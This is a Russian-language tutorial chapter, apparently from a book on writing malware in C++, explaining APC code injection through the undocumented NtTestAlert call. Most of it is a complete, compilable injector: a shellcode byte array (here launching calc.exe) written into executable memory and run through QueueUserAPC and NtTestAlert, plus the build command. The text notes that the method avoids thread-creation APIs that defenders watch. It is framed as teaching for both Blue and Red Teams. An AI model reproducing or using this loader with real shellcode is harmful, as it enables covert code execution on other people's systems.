








\newpage
\subsection{14. APC инъекция с помощью NtTestAlert. простое вредоносное ПО на C++.}

﷽

{width="80%"}    

В предыдущем разделе я писал о технике APC injection "Early Bird".

В этом разделе я расскажу о другой технике APC injection. Её суть заключается в использовании недокументированной функции `NtTestAlert`. Я покажу, как выполнить shellcode в локальном процессе, используя Win32 API `QueueUserAPC` и официально недокументированный Native API `NtTestAlert`.

### NtTestAlert

**NtTestAlert** — это системный вызов, связанный с механизмом оповещений Windows. Этот системный вызов может привести к выполнению всех ожидающих APC в потоке. Перед тем как поток начинает выполнять свою стартовую функцию в Win32, он вызывает `NtTestAlert` для выполнения всех ожидающих APC.

### Пример

Давайте рассмотрим исходный код нашего вредоносного C++-приложения:

```cpp
/*
hack.cpp
APC code injection via undocumented NtTestAlert
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/11/20/malware-injection-4.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

#pragma comment(lib, "ntdll")
using myNtTestAlert = NTSTATUS(NTAPI*)();

unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};

int main(int argc, char* argv[]) {
  SIZE_T my_payload_len = sizeof(my_payload);
  HMODULE hNtdll = GetModuleHandleA("ntdll");
  myNtTestAlert testAlert = (myNtTestAlert)(
    GetProcAddress(hNtdll, "NtTestAlert"));

  LPVOID my_payload_mem = VirtualAlloc(NULL, my_payload_len, 
  MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  WriteProcessMemory(GetCurrentProcess(), 
  my_payload_mem, my_payload, 
  my_payload_len, NULL);

  PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)
  my_payload_mem;
  QueueUserAPC(
    (PAPCFUNC)apcRoutine, 
    GetCurrentThread(), NULL
  );
  testAlert();

  return 0;
}
```

Для простоты в качестве полезной нагрузки мы используем 64-битный `calc.exe`.    

Алгоритм этой техники прост. Сначала мы выделяем память в локальном процессе для нашего payload:    

{width="80%"}    

Затем записываем наш payload в только что выделенную память:    

{width="80%"}    

Далее добавляем APC в очередь текущего потока:    

{width="80%"}    

Наконец, вызываем `NtTestAlert`:    

{width="80%"}    

Давайте скомпилируем наш код:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole \
 -I/usr/share/mingw-w64/include/ -s -ffunction-sections \
 -fdata-sections -Wno-write-strings -fno-exceptions \
 -fmerge-all-constants -static-libstdc++ -static-libgcc \
 -fpermissive
```

{width="80%"}    

Запускаем на целевой машине (в моем случае Windows 7 x64):   

{width="80%"}    

Если открыть наш `hack.exe` в `Ghidra`:    

{width="80%"}    

Вызов функции `NtTestAlert` не выглядит подозрительным. Преимущество этой техники в том, что она не использует API-вызовы `CreateThread` или `CreateRemoteThread`, которые более распространены, подозрительны и чаще анализируются специалистами Blue Team.

[APC MSDN](https://docs.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls)         
[QueueUserAPC](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc)          
[VirtualAlloc](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)   
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)      
[GetModuleHandleA](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulehandlea)    
[GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)    
[APC technique MITRE ATT&CK](https://attack.mitre.org/techniques/T1055/004/)    
[NTAPI Undocumented Functions - NtTestAlert](http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FAPC%2FNtTestAlert.html)    
[Ghidra - NSA](https://github.com/NationalSecurityAgency/ghidra/)    
[исходный код на Github](https://github.com/cocomelonc/2021-11-20-injection-4)    

Надеюсь, этот раздел поможет специалистам Blue Team лучше понимать данную технику, а для Red Team станет дополнительным инструментом в их арсенале.   
